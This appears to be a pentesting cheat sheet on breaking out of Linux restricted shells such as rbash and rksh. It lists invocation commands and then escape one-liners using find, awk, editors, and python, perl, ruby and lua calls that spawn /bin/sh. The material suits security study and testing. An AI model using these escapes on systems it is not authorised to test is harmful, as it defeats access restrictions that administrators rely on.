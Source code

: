 # Escaping Restricted Shell

Some sysadmins don't want their users to have access to all commands. So they get a restriced shell. If the hacker get access to a user with a restriced shell we need to be able to break out of that, escape it, in order to have more power.

Many linux distros include rshell, which is a restriced shell.

To access the restried shell you can do this:

```text
sh -r 
rsh

rbash
bash -r
bash --restricted

rksh
ksh -r
```

## Possible Escapes

```text
$ find /etc -name passwd exec /bin/bash \\;
$ find / -name blah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

# From most text editors: vim, less, more, man, etc.
[in the program] !/bin/bash
:set shell=/bin/bash
:shell
:! /bin/sh

# Inside awk
awk 'BEGIN {system("/bin/bash")}'

# If programming language shells are accessible:

python : exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
$ python -c'import pty; pty.spawn("/bin/bash")'

$ perl -e 'exec "/bin/sh";'

ruby : exec "/bin/sh"

lua : os.execute('/bin/sh')

irb(main:001:0> exec "/bin/sh"
```

[http://securebean.blogspot.cl/2014/05/escaping-restricted-shell\_3.html?view=sidebar](http://securebean.blogspot.cl/2014/05/escaping-restricted-shell_3.html?view=sidebar)

[http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells](http://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells)

